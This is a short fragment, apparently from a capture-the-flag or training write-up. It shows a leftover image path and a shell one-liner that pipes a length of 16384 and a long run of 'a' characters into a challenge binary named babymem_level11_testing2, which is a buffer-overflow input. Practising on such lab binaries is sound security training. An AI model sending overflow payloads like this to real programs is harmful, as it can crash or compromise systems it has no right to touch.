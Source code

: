 You can use the following command.

(echo "16384"; python3 -c "print('a' * 0x4000)") | /babymem_level11_testing2